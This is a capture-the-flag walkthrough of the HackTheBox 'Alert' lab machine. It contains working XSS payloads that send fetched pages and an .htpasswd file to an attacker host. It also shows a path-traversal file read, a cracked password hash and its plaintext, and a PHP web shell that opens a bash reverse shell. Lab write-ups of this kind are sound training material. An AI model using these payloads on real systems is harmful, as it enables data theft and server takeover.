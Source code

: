 ```yaml
---
title: Alert
tags:
  - HackTheBox
  - Easy
  - Linux
  - XSS
  - LFI
  - Brute-Forcing
date: 2025-01-31T00:00:00Z
---
```

![](Pasted%20image%2020250131095721.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.44 alert.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- alert.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp    open     ssh
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp    open     http
| http-title: Alert - Markdown Viewer
|_Requested resource was index.php?page=alert
12227/tcp filtered unknown
```

So I checked its website:

![](Pasted%20image%2020250131095847.png)

I uploaded a sample markdown to see if it actually worked:

![](Pasted%20image%2020250131100132.png)

> It did

I performed some vhost enumeration with [Ffuf 🐳](/notes/tools/Ffuf.md):

```shell
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://alert.htb/ -H 'Host: FUZZ.alert.htb' -fc 301

[redacted]
statistics              [Status: 401, Size: 467, Words: 42, Lines: 15, Duration: 46ms]
```

So I added it to my known hosts and visited it:

![](Pasted%20image%2020250131102936.png)

It seems that I need some credentials

## Exploitation

I managed to upload a XSS:

```md
<a href="javascript:alert('XSS')">Click Me</a>
```

![](Pasted%20image%2020250131100538.png)

So I decided to perform a deeper XSS by appending a payload to know what the app does when inspecting the link. I used this payload:

```js
<script>  
fetch("http://alert.htb/")  
  .then(response => response.text())  
  .then(data => {  
    fetch("http://10.10.14.7:8090/?data=" + encodeURIComponent(data));  
  })  
  .catch(error => console.error("Error fetching the messages:", error));  
</script>
```

![](Pasted%20image%2020250131103534.png)

Okey, now that we know that the payload works I'll try a LFI via XSS. I'll try to read `.htpasswd` file:
- Note that I first tried to get the `.htpasswd` file just inside apache2 but didn't work

```shell
<script>  
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htapasswd")  
  .then(response => response.text())  
  .then(data => {  
    fetch("http://10.10.14.7:8090/?file_content=" + encodeURIComponent(data));  
  });  
</script>
```

Got the link: `http://alert.htb/visualizer.php?link_share=679c9e462a00f7.46741851.md`

So I pasted it into the Contact Us endpoint:

![](Pasted%20image%2020250131105827.png)

![](Pasted%20image%2020250131105848.png)

I got some encrypted creds: `%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A` -> `<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>` -> `albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/`

Now I'll brute force it with Hashcat
- Check [Crack Password Hashes (Sites) 🤡](/notes/crack_password_hashes.md) and [Hashcat hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

![](Pasted%20image%2020250131110214.png)

```shell
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt

hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt --show
$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited
```

> I got creds :D `albert:manchesterunited`

Now I logged in `statistics.alert.htb`:

![](Pasted%20image%2020250131110701.png)

As I didn't see anything, I decided to try to ssh login with previous creds

### User flag

> Worked and got user flag :D

![](Pasted%20image%2020250131110935.png)

## Privilege Escalation

I checked open ports:

```shell
netstat -ant

Proto Recv-Q Send-Q Local Address           Foreign Address         State       
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:37622         127.0.0.1:80            TIME_WAIT  
tcp        0    224 10.10.11.44:22          10.10.14.7:49364        ESTABLISHED
tcp        0      1 10.10.11.44:54046       8.8.8.8:53              SYN_SENT   
tcp        0      0 127.0.0.1:37608         127.0.0.1:80            TIME_WAIT  
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN
```

```shell
curl -S 127.0.0.1:8080
```

![](Pasted%20image%2020250131112040.png)

I'll forward port 8080's traffic to my machine:

```shell
# In my machine I'll run:
ssh -L 1010:127.0.0.1:8080 -N albert@alert.htb
# Then visit http://localhost:1010/
```

![](Pasted%20image%2020250131112254.png)


I'll check the folder of the app:

```shell
ls -la /opt/website-monitor/

drwxrwxr-x 7 root root        4096 Oct 12 01:07 .
drwxr-xr-x 4 root root        4096 Oct 12 00:58 ..
drwxrwxr-x 2 root management  4096 Oct 12 04:17 config
drwxrwxr-x 8 root root        4096 Oct 12 00:58 .git
drwxrwxr-x 2 root root        4096 Oct 12 00:58 incidents
-rwxrwxr-x 1 root root        5323 Oct 12 01:00 index.php
-rwxrwxr-x 1 root root        1068 Oct 12 00:58 LICENSE
-rwxrwxr-x 1 root root        1452 Oct 12 01:00 monitor.php
drwxrwxrwx 2 root root        4096 Oct 12 01:07 monitors
-rwxrwxr-x 1 root root         104 Oct 12 01:07 monitors.json
-rwxrwxr-x 1 root root       40849 Oct 12 00:58 Parsedown.php
-rwxrwxr-x 1 root root        1657 Oct 12 00:58 README.md
-rwxrwxr-x 1 root root        1918 Oct 12 00:58 style.css
drwxrwxr-x 2 root root        4096 Oct 12 00:58 updates
```

I'll create a `shell.php` inside `/config` and give it execution permissions with the following content:

```shell
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.7/777 0>&1'"); ?>
```

> I get a reverse shell and can read root flag :D
### Root flag

![](Pasted%20image%2020250131113336.png)

==Machine pwned!==